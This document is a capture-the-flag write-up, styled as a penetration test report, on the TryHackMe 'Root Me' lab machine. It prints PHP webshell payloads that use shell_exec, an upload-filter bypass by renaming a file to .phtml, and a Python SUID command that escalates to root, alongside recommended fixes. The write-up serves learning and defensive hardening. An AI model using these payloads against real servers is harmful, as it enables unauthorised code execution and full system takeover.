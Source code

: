 # Vulnerability Assessment and Penetration Testing (VAPT) Report  
## Root Me (TryHackMe)  

**Prepared by:** Nishanth Antony
**Date:** August 11, 2025  
**Difficulty:** Easy  
**Platform:** [TryHackMe](https://tryhackme.com)  
**Category:** Web Exploitation / Privilege Escalation  

---

## 📋 Executive Summary  

The **Root Me** TryHackMe machine was successfully exploited through insecure file upload functionality and privilege escalation via an SUID misconfiguration.  
By bypassing file upload restrictions, achieving remote code execution, and leveraging a Python SUID binary, full system compromise was achieved — including capture of both **user** and **root** flags.  

---

## 🎯 Scope  

Conduct an external penetration test on the *Root Me* box to:  
- Identify open services.  
- Exploit web upload vulnerabilities to gain a foothold.  
- Escalate privileges to root.  
- Extract sensitive flags.  

---

## 🚨 Key Vulnerabilities  

| Vulnerability                  | Impact                                           | Fix                                                    |
|--------------------------------|--------------------------------------------------|--------------------------------------------------------|
| Insecure File Upload           | Allowed arbitrary script upload and execution    | Restrict allowed file types, verify MIME type server-side |
| Weak File Validation Logic     | Bypassed `.php` restriction with `.phtml`         | Implement stricter file whitelist with server-side checks |
| SUID Misconfigured Binary      | Python executable allowed privilege escalation   | Remove SUID from interpreters or limit executable permissions |

---

## 🛠 Exploitation Steps  

### **1. Reconnaissance**  
- **Command:**
```bash
nmap -sV <target_ip>
```

text
- **Finding:** Open port **80** (HTTP) serving a website with file upload functionality.

---

### **2. File Upload Bypass**  
- The upload form blocked `.php` files.  
- **Bypass Method:** Uploaded a malicious `.phtml` file.  
- **Tool Used:** *Burp Suite* to intercept the request and change the file extension from `.php` to `.phtml`.  

---

### **3. Remote Code Execution**  
- **Test Command:**
```php
<?php echo shell_exec("ls -l"); ?>
```
text
Confirmed the `.phtml` file was being executed by the server.

- **User Flag Command:**
```php
<?php echo shell_exec("find / -name user.txt 2>/dev/null -exec cat {} \;"); ?>
```
text
Captured **user.txt**.

---

### **4. Privilege Escalation**  
- **SUID Check:**
```php
<?php echo shell_exec("find / -user root -perm /4000 2>/dev/null"); ?>
```
text
Found `/usr/bin/python2.7` with SUID bit.

- **Exploit Command:**
```php
<?php echo shell_exec('/usr/bin/python2.7 -c \'import os,sys; os.setuid(0); sys.stdout.write(open("/root/root.txt","r").read())\' 2>&1'); ?>
```
text
Captured **root.txt**.

---

## 🧠 Lessons Learned  

- Secure file upload features by validating **both extension and MIME type** server-side.  
- Avoid allowing interpreters (Python, Perl, Bash) to have the SUID bit set.  
- Use principle of least privilege to prevent privilege escalation.  

---

## 💻 Skills Demonstrated  

- Service enumeration (`nmap`)  
- File upload bypass (extension manipulation + Burp Suite)  
- PHP webshell exploitation  
- Privilege escalation via SUID Python binary  

---

## 🛠 Tools Used  

- **nmap** – service discovery  
- **Burp Suite** – request interception & file extension modification  
- **PHP Webshell** – remote command execution  
- **find** – system search for flags and SUID binaries  

---

## 🌟 Final Thoughts  

The Root Me machine demonstrates how insecure file upload functionality combined with poor privilege management can lead to total system compromise. Proper input validation, service hardening, and permission auditing are crucial to protecting against such attacks.
